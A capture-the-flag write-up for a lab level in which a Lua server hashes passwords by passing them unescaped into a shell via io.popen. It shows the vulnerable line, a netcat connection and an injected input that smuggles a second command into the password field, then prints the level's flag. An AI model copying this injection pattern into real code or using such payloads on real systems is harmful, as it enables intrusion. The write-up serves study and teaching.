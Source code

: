 # Level11

In Level11, you are presented with a Lua script named `./level11.lua` and nothing else. Upon examining the script, you determine that it performs the following actions:

1. Creates a server on `localhost` at port `5151`.
2. Waits for a client to connect to this server.
3. Prompts the connected client for a password.
4. Hashes the password.
5. Compares the hashed password to a stored hash.
6. Displays a message indicating whether the hashes are equal.

One line in the script stands out in particular:

lua
prog = io.popen("echo "..pass.." | sha1sum", "r")


It appears that the script's method of hashing the password is to insert the provided password into a string of commands, which it then feeds to a subshell. This approach has security implications and creates an opportunity for exploitation.

To exploit the script, you open a client to communicate with it. Since the script is already running, you don't need to start it manually:


nc localhost 5151


Once connected, the script prompts you for a password. You can try exploiting it by providing the following input:


; getflag > /tmp/flag ; echo hello


This input is crafted to be executed as the following command:


echo ; getflag > /tmp/flag ; echo hello | sha1sum


## The flag

After providing the input, the script executes the command, and you can retrieve the flag by running:


cat /tmp/flag


This displays the Level11 flag:


fa6v5ateaw21peobuub8ipe6s
